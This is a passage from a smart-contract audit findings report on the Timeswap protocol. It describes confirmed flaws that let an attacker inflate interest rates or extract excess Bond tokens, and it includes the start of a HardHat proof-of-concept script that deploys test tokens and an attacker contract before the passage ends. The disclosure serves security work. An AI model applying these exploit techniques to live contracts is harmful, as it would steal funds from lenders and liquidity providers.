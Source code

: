 *   An attacker can set `state.y` to a near overflow value, then `lend()` to get a large amount of extra interest (as Bond tokens) with a small amount of asset tokens. This way, the attacker can steal funds from other lenders and liquidity providers.

**[Mathepreneur (Timeswap) confirmed](https://github.com/code-423n4/2022-01-timeswap-findings/issues/169)**

[](#h-03-manipulation-of-the-y-state-results-in-interest-rate-manipulation)[\[H-03\] Manipulation of the Y State Results in Interest Rate Manipulation](https://github.com/code-423n4/2022-01-timeswap-findings/issues/187)
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

_Submitted by Rhynorater, also found by harleythedog, hyh, and WatchPug_

Due to lack of constraints on user input in the `TimeswapPair.sol#mint` function, an attacker can arbitrarily modify the interest rate while only paying a minimal amount of Asset Token and Collateral Token.

Disclosure: This is my first time attempting Ethereum hacking, so I might have made some mistakes here since the math is quite complex, but I’m going to give it a go.

#### [](#proof-of-concept-1)Proof of Concept

The attack scenario is this: A malicious actor is able to hyper-inflate the interest rate on a pool by triggering a malicious mint function. The malicious actor does this to attack the LP and other members of the pool.

Consider the following HardHat script:

    const hre = require("hardhat");
    
    
    //jtok is asset
    //usdc is collat
    
    async function launchTestTokens(tokenDeployer){
        //Launch a token
        const TestToken = await ethers.getContractFactory("TestToken", signer=tokenDeployer);
        const tt = await TestToken.deploy("JTOK", "JTOK", 1000000000000000)
        const tt2 = await TestToken.deploy("USDC", "USDC", 1000000000000000)
        let res = await tt.balanceOf(tokenDeployer.address)
        let res2 = await tt.balanceOf(tokenDeployer.address)
        console.log("JTOK balance: "+res)
        console.log("USDC balance: "+res2)
        return [tt, tt2]
    }
    
    async function deployAttackersContract(attacker, jtok, usdc){
        const Att = await ethers.getContractFactory("Attacker", signer=attacker)
        const atakcontrak = await Att.deploy(jtok.address, usdc.address)
        return atakcontrak
    }
    
    async function deployLPContract(lp, jtok, usdc){
        const LP = await ethers.getContractFactory("LP", signer=lp)
        const lpc = await LP.deploy(jtok.address, usdc.address)
        return lpc
    }
    